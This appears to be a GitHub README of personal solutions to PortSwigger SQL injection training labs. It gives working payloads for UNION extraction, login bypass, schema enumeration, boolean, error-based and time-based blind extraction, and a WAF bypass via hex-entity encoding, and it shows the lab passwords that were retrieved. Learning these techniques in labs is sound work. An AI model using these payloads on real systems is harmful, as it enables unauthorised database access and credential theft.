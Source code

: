 # Sqli 

<details>
  <summary>Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data</summary>

> ### This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

---
 
* ```url
  /filter?category=Pets
  ```
  * ```url
    /filter?category=Pets' or 1=1 --
    ```

  
</details>







<details>
  <summary>Lab: SQL injection vulnerability allowing login bypass</summary>

> ###  This lab contains a SQL injection vulnerability in the login function.
* > To solve the lab, perform a SQL injection attack that logs in to the application as the ``administrator`` user.

---


```url
csrf=Wf2ku02yY3tefRdA4rFJfn8d1Z48oOeq&username=user&password=pass
```
put username = ``administrator" --`` and write any passowrd it will be ignored anyway and if ``'`` not work try ``"``

```url
csrf=Wf2ku02yY3tefRdA4rFJfn8d1Z48oOeq&username=administrator' --&password=pass
```

  
</details>




<details>
  <summary>Lab: SQL injection attack, querying the database type and version on Oracle ⚠️</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
* > To solve the lab, display the database version string. 

* <details>
     <summary>Hint</summary>

  On Oracle databases, every ``SELECT`` statement must specify a table to select ``FROM``. If your ``UNION SELECT`` attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.
  
  There is a built-in table on Oracle called ``dual`` which you can use for this purpose. For example: ``UNION SELECT 'abc' FROM dual``   

  </details>


⚠️⚠️
<details>
  <summary>aobut union injection</summary>

✅ أولاً: "تتأكد إن أنواع البيانات في الأعمدة المتحده (unioned) متوافقة" يعني إيه؟
لما تستخدم ``UNION``، انت بتدمج نتيجتين مع بعض، فلازم الأعمدة اللي في الاستعلام الأول والتاني يكونوا نفس العدد ونفس نوع البيانات.

مثال توضيحي:
لو الاستعلام الأصلي بيرجع:

```sql
id (رقم), name (نص), email (نص)
```

فأنت لازم تكتب: 

```sql
UNION SELECT 1, 'admin', 'admin@example.com'
```
  
</details>
⚠️⚠️

----


```
/filter?category=Gifts
```
first check number of coulmns :

* ```url
  /filter?category=Gifts'union select null FROM dual--
  ```

* ```url
  /filter?category=Gifts'union select null,null FROM dual--
  ```

for check type of coulmns :

* ```url
  /filter?category=Gifts'union select 'a','a' FROM dual--
  ```

now try to know database version :

* **``Oracle :``**
   * ``SELECT banner FROM v$version``
   * ``SELECT version FROM``
   * ``v$instance``

* **``Microsoft :``**
   * ``SELECT @@version`` 

* **``PostgreSQL :``**
   * ``SELECT version()``

* **``MySQL :``**
   * ``SELECT @@version`` 



* ```url
  /filter?category=Gifts'union SELECT banner,NULL FROM v$version--
  ```



  
</details>








<details>
  <summary>Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
> To solve the lab, display the database version string. 


---

```url
' UNION SELECT 'abc','def'#
```

* ```
  ' UNION+SELECT @@version, NULL#
  ```

  
</details>






<details>
  <summary>Lab: SQL injection attack, listing the database contents on non-Oracle databases ⚠️</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> ### The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
> To solve the lab, log in as the ``administrator`` user. 


---

```
/filter?category=Gifts' union select NULL,NULL--
```

* <details>
     <summary>⚠️list tables in database⚠️</summary>




  
  ## 🔍 1. Determine the Number of Columns
  
  ```sql
  ' ORDER BY 1--
  ' ORDER BY 2--
  ...
  ' ORDER BY N--
  ```
  
  أوقف عند أول رقم يعطيك خطأ → عدد الأعمدة هو الرقم السابق.
  
  أو باستخدام `UNION SELECT NULL`:
  
  ```sql
  ' UNION SELECT NULL--
  ' UNION SELECT NULL,NULL--
  ' UNION SELECT NULL,NULL,NULL--
  ```
  
  حتى لا يظهر خطأ.
  
  ---
  
  ## 🧠 2. Find Reflectable Columns (أي عمود يظهر على الصفحة)
  
  ```sql
  ' UNION SELECT 'a', NULL--
  ' UNION SELECT NULL, 'a'--
  ```
  
  غيّر مكان `'a'` لترى أين يظهر على الصفحة.
  
  ---
  
  
  
  ## 📋 4. List Tables in the Database
  
  ### 🐬 MySQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()--
  ```
  
  ### 🐘 PostgreSQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema='public'--
  ```
  
  ### 🪟 MSSQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables--
  -- OR --
  ' UNION SELECT name, NULL FROM sys.tables--
  ```
  
  ### 🟠 Oracle
  
  ```sql
  ' UNION SELECT table_name, NULL FROM all_tables--
  ```
  
  ---
  
  ## 📑 5. List Columns in a Table
  
  ### 🐬 MySQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ### 🐘 PostgreSQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ### 🪟 MSSQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ---
  
  ## 🧪 Example (MySQL)
  
  - Suppose we know the number of columns is 2, and the first column reflects to the page:
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()--
  ```
  

  
 

     
   </details>


* ```sql
  ' UNION SELECT table_name,+NULL FROM information_schema.tables--
  ' union select table_name,null from all_tables --
  ```

![image](https://github.com/user-attachments/assets/5dca3238-d8de-478c-9975-a5e940982015)

```
users_qtmswl
```

found tables 

* ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_qtmswl'--
  ' union select column_name,null from all_tab_columns where table_name='USERS_KWPGKQ'--
  ```

found colums:

```
username_xwttla
email
password_ztcwwk
```

* ```sql
  ' UNION+SELECT username_xwttla, password_ztcwwk FROM users_qtmswl--
  ```

![image](https://github.com/user-attachments/assets/c759f3d6-5a1b-4884-885e-9b4ac82fa789)

```
administrator : 3cwvdutv09z9slmekkwm
```
  
</details>






<details>
  <summary>Lab: SQL injection attack, listing the database contents on Oracle</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> ### The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
> To solve the lab, log in as the administrator user. 

---


```
'+UNION+SELECT+'abc','def'+FROM+dual--
```

```sql
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

* ```
  USERS_PURPGR
  ```

```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_PURPGR'--
```

* ```
  PASSWORD_BGNVEO
  USERNAME_WWJQEC
  ```

```
'+UNION+SELECT+USERNAME_WWJQEC,+ PASSWORD_BGNVEO+FROM+USERS_PURPGR--
```

* ```
  administrator
	io37vj2yyj6q36piu2uo
  carlos
	gthqs6kajajbsnpy9xc1
  wiener
	46bp8uni00wnytsv0yob
  ```



  
</details>







<details>
   <summary>Lab: SQL injection UNION attack, determining the number of columns returned by the query</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.
> To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values. 


---

```SQL
/filter?category=Pets' union select NULL --
```

```SQL
/filter?category=Pets' union select NULL,NULL --
```

```SQL
/filter?category=Pets' union select NULL,NULL,NULL --
```





</details>







<details>
	<summary>Lab: SQL injection UNION attack, finding a column containing text</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

> The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data. 


---

```url
/filter?category=Gifts' union select 'a',NULL,NULL --
```

```url
/filter?category=Gifts' union select NULL,'a',NULL --    <== correct one
```

```url
/filter?category=Gifts' union select NULL,NULL,'a' --
```
 
</details>










<details>
	<summary>Lab: SQL injection UNION attack, retrieving data from other tables</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

> #### The database contains a different table called ``users``, with columns called ``username`` and ``password``.

> To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the ``administrator`` user. 

---


```url
/filter?category=Pets' union select null,null--
```


```url
/filter?category=Pets' union select username,password from users --
```

* ```
  wiener
	n94f86gz294x7zoonr1z
  administrator
	necgrjfgn42l9sxu160v
  carlos
	sunapc1n4575hvqzdaa1
  ```







 
</details>














<details>
	<summary>Lab: SQL injection UNION attack, retrieving multiple values in a single column</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

> #### The database contains a different table called ``users``, with columns called ``username`` and ``password``.

> To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the ``administrator`` user.


---

do concatenate to values in one column 

```url
/filter?category=Gifts' union select null,username ||' ==> '|| password from users --
```

![image](https://github.com/user-attachments/assets/3e6dd0bf-cb7c-4d21-92e5-14177f69629e)


* ```
  administrator ==> qicuka8mgvvmtdzjsk76
  wiener ==> y48w02o728mfhp76c9u3
  carlos ==> n4k3vrh25quekpp6ieje
  ```

 
</details>





---


<details>
	<summary>Lab: Blind SQL injection with conditional responses (boolan)</summary>

> ###  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

> #### The results of the SQL query are not returned, and no error messages are displayed. But the application includes a ``Welcome back`` message in the page if the query returns any rows.The database contains a different table called ``users``, with columns called ``username`` and ``password``. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

> To solve the lab, log in as the ``administrator`` user. 



---


```http
GET / HTTP/1.1

Host: 0ab3003c04435bb280113582003400f4.web-security-academy.net
Cookie: TrackingId=sBgKk2u4kNA0mWuX; session=vLPAZFMJ5ApvFggeT85YmjbwpttZwrj8
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive


```

Notice :

```http
TrackingId=sBgKk2u4kNA0mWuX;
```

First to check if it vuln or not 

```
TrackingId=sBgKk2u4kNA0mWuX' and 1=1 --;
```
notice ``Welcome Back`` appear in page

![image](https://github.com/user-attachments/assets/738470a1-011a-4fa1-bd7e-c8a655248a27)

now make sure that there is user call ``adminstrator`` by using subquery check :

```sql
' and (SELECT  'a' FROM users WHERE username='administrator')='a' --
```

if user exist

* ```sql
  ' and 'a' = 'a' --  == True
  ```

Now start Exploiting

```
' and (SELECT  'a' FROM users WHERE username='administrator' AND LENGTH(password)=1 )='a' --
```
send request to intruder and put numbers instead of 1 until 30 for example and grep&match ``Welcome back!``see when it change the response here it is ``20``

![image](https://github.com/user-attachments/assets/29e4e810-5dbe-47e1-9e7e-31e3fefdb857)


```http
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19] [20]
```

```sql
' and (SELECT  SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a' --
                                 [1]                                              [2]
```

> first ``1`` refer to first char from passowrd second ``1`` refer to this query will retrun one char 

IN INTRUDER MAKE ATTACK TYPE FROM sniper TO cluster bomb TO MULTIPLE PAYLOAD { [1],[2] } NOW IN FIRST PAYLOAD [1] MAKE IT TRY 
      FROM 1 TO 20 AND IN SECOND PAYLOAD [2] TRY FORM [a-z+0-9] AND IN SETTINGS OF INRUDER MAKE GREP-MATCH WITH YOUR VALUE 
      IN THIS EXAMPLE IS " Welcome Back! " NOW IT WILL BRUTE FORCE AND YOU WILL GIT THE PASSWORD

```
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19] [20]
 p    m    i    w    y    x    x    o    a    o     z     p     b     1     x     o     c     m     q    j
```

```
pmiwyxxoaozpb1xocmqj
```
 
</details>







<details>
	<summary>Lab: Blind SQL injection with conditional errors</summary>

> ###  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
> #### The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.The database contains a different table called ``users``, with columns called ``username`` and ``password``. You need to exploit the blind SQL injection vulnerability to find out the password of the ``administrator`` user.

> To solve the lab, log in as the ``administrator`` user. 

---

to check --- internal server error---  add ``'``

```url
TrackingId=Gpf75xlv9ccLL8ZV'
```

now it injectable to what kind?? 

```url
0iLsW0UwGLuOfA5J' and 1=1 --    no error
0iLsW0UwGLuOfA5J' and 1=0 --    no error        
```

there is no error so it is not boolan blind injunction

now to detrmine it error based:

```url
TrackingId=Gpf75xlv9ccLL8ZV''  no error
```
no error appear that is mean we can do subqery inside ``' '``

to make sure that there is user called ``administrator``

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT '' FROM users WHERE username='administrator') || '--
```

no error so there is user call ``administrator`` but wait if you try to but wrong user for example 

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (select '' from users where username='plaplapla') || '--
```

no error also ⚠️⚠️

so how to make sure if really there is user call ``administrator`` :

```url
0iLsW0UwGLuOfA5J' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual) ||'--    error  appear because 1/0
0iLsW0UwGLuOfA5J' || (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE NULL END FROM dual) ||'--    no error 
```

now try to know if there is user call ``administrator`` with same way 

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='administrator') ||'--
```

here he check **first** if there is user call ``administrator`` if there is will excute ``SELECT CASE`` statement and there will be error 

but if there is no user called ``administrator`` the ``SELECT CASE`` will not excuted and no error will appear 

now if we try fake suer ``plaplapla``

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='plaplapla') ||'--
```
no error appear so user not exist

now we want to konw length of passowrd:

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='administrator' and LENGTH(password)=1) ||'--
```
send to intruder and select ``1`` and put value form ``1 to 30`` and when error appear that will be the length

![image](https://github.com/user-attachments/assets/400863d8-0caa-451c-bfcb-5ef297434b01)

so passowrd length is **``20``**

now brute force it :

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='administrator' and substr(password,1,1)='a')||'--
```



```
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19] [20]
 y    0    x    9    p    0    p    2    c    i     2     q     1     i     u     n     d     r     x    q
```

```
y0x9p0p2ci2q1iundrxq
```


 
</details>









<details>
	<summary>Lab: Visible error-based SQL injection  (visible errors)</summary>


> ###  This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

> #### The database contains a different table called ``users``, with columns called ``username`` and ``password``. To solve the lab, find a way to leak the password for the ``administrator`` user, then log in to their account.

---


```url 
XGb1lTKF70BvkHkM'                 error appear
XGb1lTKF70BvkHkM'--               error disappear      so it is vulnerable 
```

```url
TrackingId=E4OUmE1Kd6YYqUU2' and CAST((SELECT 1) AS int)--
TrackingId=E4OUmE1Kd6YYqUU2' and 1 ==> (int) not (boolean)
```

![image](https://github.com/user-attachments/assets/c4fa4f22-4984-4cc3-a7de-6b41cd188579)


```url
TrackingId=E4OUmE1Kd6YYqUU2' and 1=CAST((SELECT 1) AS int)--   no errors
TrackingId=E4OUmE1Kd6YYqUU2' and 1=1
TrackingId=E4OUmE1Kd6YYqUU2' and True
```

now exploit

```
TrackingId=E4OUmE1Kd6YYqUU2' and 1=CAST((SELECT username FROM users) AS int)--
```

![image](https://github.com/user-attachments/assets/28b17321-de6a-417c-959c-31579dac836b)


> error because the request is too long so we clear tracking id

```
TrackingId=' and 1=CAST((SELECT username FROM users) AS int)--
```

![image](https://github.com/user-attachments/assets/d12ac037-ac94-4a24-a532-b88dd0cf9c4c)

now try to appear first row as error but has name of first user

```
' and 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

![image](https://github.com/user-attachments/assets/e1006871-fea9-49c0-a530-bcd979c739ad)

it work so first user is ``administrator``

now appear first password as error

```
' and 1=CAST((SELECT password FROM users LIMIT 1) AS int)-- 
```

![image](https://github.com/user-attachments/assets/ddcdd86d-847b-47cc-b3aa-b7b767588680)

```
administrator : cuqjexnaphj1h9gz3b6y
```


 
</details>











<details>
	<summary>Lab: Blind SQL injection with time delays</summary>

> ###  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

> To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay. 

---

```url
TrackingId=1Pe7nqjCl5ZZt9q7' ||(SELECT pg_sleep(10))--'
```


 
</details>









<details>
	<summary>Lab: Blind SQL injection with time delays and information retrieval</summary>


> ###  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.The database contains a different table called ``users``, with columns called ``username`` and ``password``. You need to exploit the blind SQL injection vulnerability to find out the password of the ``administrator`` user.

> To solve the lab, log in as the ``administrator`` user. 


---

First test if vuln by make delay ``10s``

```url
TrackingId=UEptVxSAS3n40Lpj'||(SELECT pg_sleep(10)) --
```

and it work so it vulnarable 

now we want to make sure that there is user called ``administrator``

```url
TrackingId=UEptVxSAS3n40Lpj'|| (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --
```

delay happend so user is exist 

now will find passowrd length by send this request to intruder and change 1 to range form ``1 to 30``

```url
TrackingId=UEptVxSAS3n40Lpj'|| (SELECT CASE WHEN (username='administrator' and LENGTH(password)=1) THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --
```

![image](https://github.com/user-attachments/assets/653beef2-c0e8-4309-aab0-51eeeb150031)

so length is ``20``

now do brute force to find password

```url
TrackingId=UEptVxSAS3n40Lpj'|| (SELECT CASE WHEN (username='administrator' and substr(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --
```


<details>
	<summary>the payload</summary>

```
a
b
c
d
e
f
g
h
i
j
k
l
m
n
o
p
q
r
s
t
u
v
w
x
y
z
0
1
2
3
4
5
6
7
8
9
A
B
C
D
E
F
G
H
I
J
K
L
M
N
O
P
Q
R
S
T
U
V
W
X
Y
Z
```

 
</details>


```
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19] [20]
 f    n    v    q    9    x    0    4    m    z      f    r     j     8     x      2    t      d     1   o
```


**``Password``**

```
fnvq9x04mzfrj8x2td1o
```
 
</details>












---

<details>
	<summary>Lab: SQL injection with filter bypass via XML encoding</summary>

> ###  This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

> The database contains a ``users`` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account. 

* <details>
	<summary>Hint</summary>

	> ## A web application firewall (WAF) will block requests that contain obvious signs of a SQL injection attack. You'll need to find a way to obfuscate your malicious query to bypass this filter. We recommend using the **``Hackvertor``** extension to do this. 
 
  </details>


---

to know how number of columns

```
<storeId>1 UNION SELECT NULL</storeId>
```

but but the firewall will send forbidden 

```http
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17


"Attack detected"
```

from ``hackvertor`` do encode to ``UNION SELECT NULL`` using ``hex_entities`` that you bypass the firewall

```html
1 <@hex_entities> UNION SELECT NULL </@hex_entities>
```

```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14



921 units
null
```

so it have 1 column now get username and password 

```html
1 <@hex_entities>

UNION SELECT username || ' = ' || password FROM users

</@hex_entities>
```


```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 106



carlos = 7pvl2i5kf9bz7cmzq9pc
administrator = 9soloagn82b9rgya99uw
wiener = ee0as2ryc270mq7aw8ir
921 units
```


 
</details>















































## [Portsqigger cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)



































